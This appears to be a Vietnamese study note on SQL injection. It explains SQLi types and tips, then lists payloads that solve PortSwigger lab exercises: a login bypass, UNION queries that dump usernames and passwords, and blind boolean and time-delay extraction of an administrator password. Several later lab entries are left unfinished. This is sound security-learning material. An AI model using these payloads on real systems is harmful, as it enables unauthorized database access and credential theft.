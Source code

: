 # SQL Injection

### Kiến thức

Hệ thống quản lý cơ sở dữ liệu (DBMS) là hệ thống phần mềm được sử dụng để lưu trữ, truy xuất và chạy các truy vấn trên dữ liệu. DBMS đóng vai trò là giao diện giữa người dùng cuối và cơ sở dữ liệu, cho phép người dùng tạo, đọc, cập nhật và xóa dữ liệu trong cơ sở dữ liệu.

Các loại SQL: MySQL, PostgreSQL, BigQuerySQL, ...

Đầu tiên cần hiểu được SQLi: khái niệm, phân loại, khai thác, ngăn chặn.

SQLi là lỗ hổng bảo mật web cho phép kẻ tấn công có thể xem trái phép cơ sở dữ liệu của trang web. Có nhiều trường hợp tệ hơn, kẻ tấn công có thể xoá và sửa dữ liệu quan trọng làm thiệt hại lớn cho người dùng và nhà phát triển.

SQLi gồm các dạng:
- In-band SQLi
    - Error-based SQLi
    - Union-based SQLi
- Inferential SQLi (Blind SQLi)
- Blind-boolean-based SQLi
    - Time-based-blind SQLi
- Out-of-band SQLi



### Kinh nghiệm

Xác định trang web sử dụng dạng database

Nên thêm null khi SELECT và có dấu -- (comment) đường sau mỗi câu truy vấn

Luôn chuyển đổi 2 cách là -- và # (%23)

Dấu # được hiểu là đánh dấu hoặc chú thích

Sử dụng  OR, AND hoặc ;, ||

Blind SQL Injection xảy ra khi ta ghi sai hoặc có câu truy vấn nhưng trang web vẫn chấp nhận rằng nó đúng

Blind SQLi: như tên, không thể thấy, ta có thể khai thác, dự đoán bằng một cái khác để đưa ra kết quả chính xác

Đọc các cheat sheet



### Trải nghiệm
`PortSwigger`
#### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
Input parameter category: 
'+OR+'1'='1

#### Lab: SQL injection vulnerability allowing login bypass
Login username: administrator' OR '1'='1

#### Lab: SQL injection attack, querying the database type and version on Oracle
Input parameter category: 
'+UNION+SELECT+banner,NULL+FROM+v$version--

#### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
Input parameter category:
'+UNION+SELECT+@@version,NULL%23

#### Lab: SQL injection attack, listing the database contents on non-Oracle databases
Input parameter category:
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_?'--
'+UNION+SELECT+password_?,+username_?+FROM+users_?--

#### Lab: SQL injection attack, listing the database contents on Oracle
Input parameter category: 
'+UNION+SELECT+table_name,+NULL+FROM+all_tables--
'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name+=+'USERS_?'--
'+UNION+SELECT+USERNAME_?,+PASSWORD_?+FROM+USERS_?--

#### Lab: SQL injection UNION attack, determining the number of columns returned by the query
Input parameter category: 
'+UNION+SELECT+NULL,NULL,NULL--

#### Lab: SQL injection UNION attack, finding a column containing text
Input parameter category: 
'+UNION+SELECT+NULL,'?',NULL--

#### Lab: SQL injection UNION attack, retrieving data from other tables
Input parameter category: 
'+UNION+SELECT+username,password+FROM+users--

#### Lab: SQL injection UNION attack, retrieving multiple values in a single column
Input parameter category: 
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--

#### Lab: Blind SQL injection with conditional responses
Input cookie: 
Cookie: TrackingId' AND '1'='1
Notification "Welcome back!"
Cookie: TrackingId' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'a
Use Burp Intruder brute force
Cookie: TrackingId' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), §1§, 1) = '§a§

#### Lab: Blind SQL injection with conditional errors
Input cookie: 
Cookie: TrackingId' 

#### Lab: Visible error-based SQL injection
Input cookie: 
Cookie: TrackingId' 

#### Lab: Blind SQL injection with time delays
Input cookie: 
Using query PostgreSQL
Cookie: TrackingId'||pg_sleep(10)--

#### Lab: Blind SQL injection with time delays and information retrieval
Input cookie: 
Cookie: TrackingId' 

#### Lab: Blind SQL injection with out-of-band interaction
Input cookie: 
Cookie: TrackingId' 
#### Lab: Blind SQL injection with out-of-band data exfiltration
Input cookie: 
Cookie: TrackingId' 

#### Lab: SQL injection with filter bypass via XML encoding
Input cookie: 
Cookie: TrackingId' 


### Tham khảo

https://tuananalytic.com/tu-hoc-sql-sao-lam-loai-sql-vay-phan-1/

https://tuananalytic.com/tu-hoc-sql-thuat-ngu-database-hay-gap-phan-2/

https://viblo.asia/p/sql-injection-la-gi-co-bao-nhieu-kieu-tan-cong-sql-injection-m68Z0QnMlkG



